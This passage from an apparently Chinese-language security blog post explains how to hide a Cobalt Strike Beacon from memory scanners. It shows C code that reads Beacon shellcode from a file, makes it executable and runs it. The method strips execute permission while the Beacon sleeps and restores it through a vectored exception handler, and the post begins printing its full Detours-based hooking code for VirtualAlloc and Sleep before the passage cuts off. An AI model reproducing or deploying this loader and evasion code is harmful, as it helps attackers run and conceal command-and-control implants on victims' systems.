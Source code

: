 最后就是读取 Beacon.bin 加载进内存执行了

```
unsigned char *BinData = NULL;
size_t size = 0;

//别忘了向Test.bin最开始的位置插入两三个90
char* szFilePath = "C:\\Users\\WBG\\Downloads\\Test.bin";
BinData = ReadBinaryFile(szFilePath, &size);
shellcode_addr = VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_READWRITE);
memcpy(shellcode_addr, BinData, size);
VirtualProtect(shellcode_addr, size, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
(*(int(*)()) shellcode_addr)();
```

总结概括一下思路就是：Beacon 进入睡眠就取消它内存的可执行属性，等 Beacon 线程醒来时触发异常交由 VEH 异常处理函数恢复内存的可执行属性，然后 Beacon 执行完成后又进入睡眠一直重复上述过程，效果如图

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOclG4rA1VAULbNfrLdZSTOXibbcPP3OlBFtqudE2FPog1SeaGV4GsOWL0YUzXN4KN8DVjD9pvXEIQw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOclG4rA1VAULbNfrLdZSTOX7iaWA5iaHba6x1u3wzGYdesEvBeoXjibib0cLBcX3phxXbUd3HDiaW8KuFQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOclG4rA1VAULbNfrLdZSTOX489BdJvTfoJdVFk4puHiaNR5Rq73C6vKNxbTY0wvrFLT37cnX92vFUw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOclG4rA1VAULbNfrLdZSTOXYlgJjNU42QY0lh0CZTUHNxa60JkWfibAhvNc8ucNmaDkKWHJMBycx4w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOclG4rA1VAULbNfrLdZSTOX2m18BDc9sebv2JVsgicP3QOvKaCUxGPQF42QQpzJZgLnOwaKInKGMGQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOclG4rA1VAULbNfrLdZSTOXl5pzaAKt6eGVWR02ajRtHDYdb9bWaibnuFMrQtRUia0IJOfeGKW2O0bw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOclG4rA1VAULbNfrLdZSTOXCOA3hHx8l54tBWiaUJeXw3cSGbbqmibqn4SXga2icVJOFpM1wu0dEMdwQ/640?wx_fmt=png)

**0x03 结尾**

提醒本文仅仅提供一种思路细节需要你自己去研究，代码一共不超过 200 行，附件代码如下，不限制转载但是禁止拿去割韭菜。  

```
#include "pch.h"
#include <iostream>
#include<Windows.h>
#include "detours.h"
#include "detver.h"
#pragma comment(lib,"detours_x64.lib")

LPVOID Beacon_address;
SIZE_T Beacon_data_len;
DWORD Beacon_Memory_address_flOldProtect;
HANDLE hEvent;

BOOL Vir_FLAG=TRUE;
LPVOID shellcode_addr;

static LPVOID (WINAPI *OldVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) = VirtualAlloc;
LPVOID WINAPI NewVirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) {
  Beacon_data_len = dwSize;
  Beacon_address = OldVirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect);
  printf("分配大小:%d", Beacon_data_len);
  printf("分配地址:%llx \n", Beacon_address);
  return Beacon_address;
}

static VOID (WINAPI *OldSleep)(DWORD dwMilliseconds) = Sleep;
void WINAPI NewSleep(DWORD dwMilliseconds)
```